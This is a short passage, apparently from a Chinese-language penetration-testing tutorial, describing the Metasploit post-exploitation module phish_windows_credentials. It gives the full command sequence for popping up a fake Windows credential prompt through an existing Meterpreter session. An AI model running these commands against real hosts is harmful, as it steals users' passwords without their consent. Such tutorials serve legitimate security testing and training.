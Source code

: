 ![图片](assets/1710388646-c2e499420b072e1bebc4e42013bccd0d.webp)

Metasploit 获得的结果如下：

![图片](assets/1710388646-44eb7b86aa241a7b1f3d1731c7789de1.webp)

### phish\_windows\_credentials

这个是 Metasploit 框架中的一个模块，可以指定创建特定进程时弹出输入提示窗口，必须制定当前已经连接的 Meterpreter 会话：

> use post/windows/gather/phish\_windows\_credentials set SESSION 3 set PROCESS \* run
